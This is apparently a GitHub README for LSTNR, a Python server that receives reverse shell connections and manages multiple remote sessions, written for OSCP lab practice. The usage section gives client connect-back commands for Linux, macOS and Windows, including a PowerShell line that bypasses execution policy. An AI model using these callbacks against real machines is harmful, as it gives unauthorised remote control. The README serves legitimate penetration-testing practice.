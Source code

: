 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI).

While running, lstnr.py writes to a log file in the directory it is ran in.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```
git clone github.com/bwithe/LSNTR

cd lstnr
```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`
- MENU COMMANDS
    - `list-sessions` or `ls` : lists connected clients
    - `connect-session <ID>` or `cs <ID>` : connects to that session
    - `kill-session <ID>` or `ks <ID>` : will terminate a session per id
    - `kill-lstnr` or `exit` : will terminate all sessions and stop the script (currently working out bugs when shutting down)
- SESSION COMMANDS
    - `bg-session` or `bs` : backgrounds the active session
    - `kill-session` or `ks` : while in a session will terminate it

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`


# Screenshot examples:

![windows-kali](https://github.com/user-attachments/assets/d3d4bae8-014c-4e3b-bf83-112939eb8250)

![windows-curl](https://github.com/user-attachments/assets/7e52e3f0-0c24-4f8f-a7da-739802ed4170)

# TROUBLESHOOTING
- If you are having issues closing the LSTNR
```
lstnr_pid=$(ps aux | grep lstnr | egrep -v 'grep' | awk '{print $2}')

kill -9 $lstnr_pid
```
